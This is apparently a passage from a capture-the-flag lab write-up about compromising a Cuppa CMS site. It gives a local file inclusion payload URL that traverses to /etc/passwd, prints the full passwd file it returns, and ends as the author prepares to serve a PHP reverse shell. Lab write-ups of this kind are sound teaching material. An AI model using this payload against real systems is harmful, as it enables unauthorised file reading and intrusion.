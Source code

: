 - Going to `/{redacted}/administrator` we find that it is running Cuppa CMS.

- After some googling, I found [this](https://www.exploit-db.com/exploits/25971) exploit for Cuppa CMS that allows for LFI - Local File Inclusion attacks.

- It seems that the payload works like this:

```
ip/{redacted}/administrator/alerts/alertConfigField.php?urlConfig=[command]
```

eg: 

```
http://10.10.54.6/{redacted}/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash
dovecot:x:111:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:112:120:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:113:121::/var/spool/postfix:/bin/false
mysql:x:114:123:MySQL Server,,,:/nonexistent:/bin/false
```

- My next step was to start a python webserver in a directory where a php reverse shell would be located. 
